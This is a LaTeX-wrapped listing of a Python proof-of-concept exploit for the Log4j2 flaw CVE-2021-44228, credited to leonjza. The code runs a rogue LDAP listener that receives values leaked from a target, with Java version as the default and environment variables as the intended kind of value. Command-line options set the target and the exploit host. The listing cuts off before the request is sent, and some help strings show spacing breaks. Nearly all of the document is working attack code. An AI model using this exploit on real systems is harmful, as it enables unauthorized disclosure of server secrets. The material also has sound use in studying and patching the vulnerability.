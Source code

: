 \documentclass[11t]{article}
\begin{document}
\begin{lstlisting}[breaklines=true]
# Exploit Title: Apache Log4j2 2.14.1 - Information Disclosure
# Date: 12/12/2021
# Exploit Author: leonjza
# Vendor Homepage: https://logging.apache.org/log4j/2.x/
# Version: <= 2.14.1
# CVE: CVE-2021-44228

#!/usr/bin/env python3

# Pure python ENV variable leak PoC for CVE-2021-44228
# Original PoC: https://twitter.com/Black2Fan/status/1470281005038817284
#
# 2021 @leonjza

import argparse
import socketserver
import threading
import time

import requests

LDAP_HEADER = b'\x30\x0c\x02\x01\x01\x61\x07\x0a\x01\x00\x04\x00\x04\x00\x0a'


class ThreadedTCPRequestHandler(socketserver.BaseRequestHandler):
    def handle(self) -> None:
        print(f' i| new connection from {self.client_address[0]}')

        sock = self.request
        sock.recv(1024)
        sock.sendall(LDAP_HEADER)

        data = sock.recv(1024)
        data = data[9:]  # strip header

        # example response
        #
        # ('Java version 11.0.13\n'
        #  '\x01\x00\n'
        #  '\x01\x03\x02\x01\x00\x02\x01\x00\x01\x01\x00\x0b'
        #  'objectClass0\x00\x1b0\x19\x04\x172.16.840.1.113730.3.4.2')

        data = data.decode(errors='ignore').split('\n')[0]
        print(f' v| extracted value: {data}')


class ThreadedTCPServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass


def main():
    parser = argparse.ArgumentParser(description='a simple log4j
<=2.14 information disclosure poc '
                                                 '(ref:
https://twitter.com/Black2Fan/status/1470281005038817284)')
    parser.add_argument('--target', '-t', required=True, help='target uri')
    parser.add_argument('--listen-host', default='0.0.0.0',
                        help='exploit server host to listen on
(default: 127.0.0.1)')
    parser.add_argument('--listen-port', '-lp', default=8888,
help='exploit server port to listen on (default: 8888)')
    parser.add_argument('--exploit-host', '-eh', required=True,
default='127.0.0.1',
                        help='host where (this) exploit server is reachable')
    parser.add_argument('--leak', '-l', default='${java:version}',
                        help='value to leak. '
                             'see:
https://twitter.com/Rayhan0x01/status/1469571563674505217 '
                             '(default: ${java:version})')
    args = parser.parse_args()


\end{lstlisting}
\end{document}
